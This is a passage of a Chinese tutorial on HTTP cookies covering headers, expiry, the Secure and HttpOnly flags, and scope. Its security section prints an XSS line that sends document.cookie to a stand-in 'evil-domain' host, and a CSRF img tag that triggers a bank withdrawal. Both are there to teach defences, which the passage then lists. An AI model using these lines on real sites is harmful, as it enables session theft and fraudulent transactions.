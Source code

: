 ```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry
```

下一次的请求头示例：

```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
```

## 几个概念

会话期 Cookie：浏览器关闭自动删除 cookie。

持久性 Cookie：指定一个特定的过期时间（Expires）或有效期（Max-Age）。

Cookie 的 Secure 标记：Cookie 只应通过被 HTTPS 协议加密过的请求发送给服务端。

Cookie 的 HttpOnly 标记：只能发送给服务端而不能被 JavaScript 脚本调用。

Cookie 的作用域：Domain 和 Path 标识定义了 Cookie 的作用域，即 Cookie 应该发送给哪些 URL。

JavaScript 调用：通过 Document.cookie 属性可创建新的 Cookie，也可通过该属性访问非 HttpOnly 标记的 Cookie。

## 安全

> 当机器处于不安全环境时，切记不能通过 HTTP Cookie 存储、传输敏感信息。

### 会话劫持和 XSS

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

### 跨站请求伪造（CSRF）

比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：

```html
<img
  src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory"
/>
```

当你打开含有了这张图片的 HTML 页面时，如果你之前已经登录了你的银行帐号并且 Cookie 仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。有一些方法可以阻止此类事件的发生：

- 对用户输入进行过滤来阻止 XSS；
- 任何敏感操作都需要确认；
- 用于敏感信息的 Cookie 只能拥有较短的生命周期；
- 更多方法可以查看[OWASP CSRF prevention cheat sheet](<https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet>)。

## 封装一个 cookie 使用库
